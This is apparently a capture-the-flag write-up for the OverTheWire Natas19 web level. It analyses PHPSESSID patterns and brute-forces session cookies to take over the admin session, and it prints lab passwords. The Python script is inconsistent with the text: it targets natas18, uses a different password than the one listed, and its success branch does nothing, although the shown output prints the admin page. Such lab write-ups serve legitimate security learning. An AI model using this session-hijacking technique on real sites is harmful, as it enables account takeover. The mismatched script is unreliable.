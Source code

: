# Natas19

*	user: `natas19`
*	pass: `4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`
*	url: `http://natas19.natas.labs.overthewire.org`
*	flag: `eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF`

## Procedure

1.	Since values of PHPSESSID are not sequential, we have to try if it's
	possible to evaluate the randomness in order to predict values. To do that
	we need a significant number of generated PHPSESSID and the try to execute
	some statistics.

2.	Statistics are executed by Python script
	[natas19_stats.py](./scripts/natas19_stats.py). Run it

		$ python natas19_stats.py
		Just a simple analysis: 
		  PHPSESSIDs with 18 chars: 82.00%
		  PHPSESSIDs with 14 chars: 2.00%
		  PHPSESSIDs with 16 chars: 14.00%
		
		Chose length: 18
		
		With 300 captures
		  char at position  0 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  1 of PHPSESSID is '1' with accurancy 20.00%
		  char at position  2 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  3 of PHPSESSID is '2' with accurancy 14.00%
		  char at position  4 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  5 of PHPSESSID is '3' with accurancy 13.00%
		  char at position  6 of PHPSESSID is '2' with accurancy 100.00%
		  char at position  7 of PHPSESSID is 'd' with accurancy 100.00%
		  char at position  8 of PHPSESSID is '6' with accurancy 100.00%
		  char at position  9 of PHPSESSID is '1' with accurancy 100.00%
		  char at position 10 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 11 of PHPSESSID is '4' with accurancy 100.00%
		  char at position 12 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 13 of PHPSESSID is 'd' with accurancy 100.00%
		  char at position 14 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 15 of PHPSESSID is '9' with accurancy 100.00%
		  char at position 16 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 17 of PHPSESSID is 'e' with accurancy 100.00%

	The output inform us that 82% of the captures is 18 chars length, so it's
	a good candidate for our flag. Then, by considering only IDs with 18 chars,
	we have an evaluation of the characters. According to the statistics, our
	PHPSESSID should be like this:

		3 [?] 3 [?] 3 [?] 2d61646d696e

3.	Now we can try with a brute-force because the range of possible solutions
	is reasonable (16x16x16).
import requests

target = 'http://natas18.natas.labs.overthewire.org/index.php'
auth = ('natas19', '8LMJEhKFbMKIL2mxQKjv0aEDdk7zpT0s')
params = {}  # You can add any additional parameters here if needed
cookies = {'PHPSESSID': ''}  # Initialize the cookies dictionary with an empty string


x, y, z = 0x0, 0x0, 0x0
while x <= 0xf:
    while y <= 0xf:
        while z <= 0xf:
            phpsessid = (('3%s3%s3%s2d61646d696e') %
                          (hex(x)[2:], hex(y)[2:], hex(z)[2:]))
            cookies['PHPSESSID'] = phpsessid
            print ('Trying with: %s' % phpsessid)
            r = requests.get(target, auth=auth, params=params, cookies=cookies)
            if "You are logged in as a regular user." not in r.text:
                # Handle the response here or store it for further processing
                pass
            z += 1
        y += 1
        z = 0x0
    x += 1
    y = 0x0
    z = 0x0

		Trying with: 33373f2d61646d696e
		Trying with: 3338302d61646d696e
		Trying with: 3338312d61646d696e
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
		<body>
		<h1>natas19</h1>
		<div id="content">
		<p>
		<b>
		This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
		</b>
		</p>
		You are an admin. The credentials for the next level are:<br><pre>Username: natas20
		Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
		</body>
		</html>
